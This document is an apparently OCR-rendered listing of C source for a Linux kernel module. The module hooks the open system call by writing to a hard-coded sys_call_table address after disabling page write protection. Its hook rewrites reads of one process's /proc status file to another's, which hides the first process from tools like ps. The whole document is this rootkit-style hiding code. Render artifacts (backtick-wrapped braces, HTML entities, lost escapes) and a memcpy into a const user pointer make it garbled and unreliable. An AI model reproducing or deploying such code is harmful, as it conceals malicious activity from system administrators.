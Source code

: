 ```
/*MY sys_call_table address*/
//ffffffff81601680
void **system_call_table_addr;
asmlinkage int (*original_open)(const char *pathname, int flags);
asmlinkage int open_hijack(const char *pathname, int flags) `{`
    /*This hooks all  OPEN sys calls and check to see what the path of the file being opened is
    currently, the paths must be hard coded for the process you wish to hide, and the process you would like it to impersonate*/
    if(strstr(pathname, "/proc/2793/status") != NULL) `{`
        printk(KERN_ALERT "PS PROCESS HIJACKED %sn", pathname);
    //The new process location will be written into the syscall table for the open command, causing it to open a different file than the one originaly requested
        memcpy(pathname, "/proc/2794/status", strlen(pathname)+1);
    `}`
    return (*original_open)(pathname, flags);
`}`
//Make syscall table  writeable
int make_rw(unsigned long address)`{`
        unsigned int level;
        pte_t *pte = lookup_address(address, &amp;level);
        if(pte-&gt;pte &amp;~_PAGE_RW)`{`
                pte-&gt;pte |=_PAGE_RW;
        `}`
        return 0;
`}`
// Make the syscall table  write protected
int make_ro(unsigned long address)`{`
        unsigned int level;
        pte_t *pte = lookup_address(address, &amp;level);
        pte-&gt;pte = pte-&gt;pte &amp;~_PAGE_RW;
        return 0;
`}`
static int __init start(void)`{`
        system_call_table_addr = (void*)0xffffffff81601680;
    //return the system call to its original state
        original_open = system_call_table_addr[__NR_open];
        //Disable page protection
        make_rw((unsigned long)system_call_table_addr);
        system_call_table_addr[__NR_open] = open_hijack;
        printk(KERN_INFO "Open psHook loaded successfully..n");
    return 0;
`}`
static int __exit end(void)`{`
        //restore original system call
        system_call_table_addr[__NR_open] = original_open;
        //Enable syscall table  protection
        make_ro((unsigned long)system_call_table_addr);
    printk(KERN_INFO "Unloaded Open psHook successfullyn");
        return 0;
`}`
module_init(start);
module_exit(end);
```
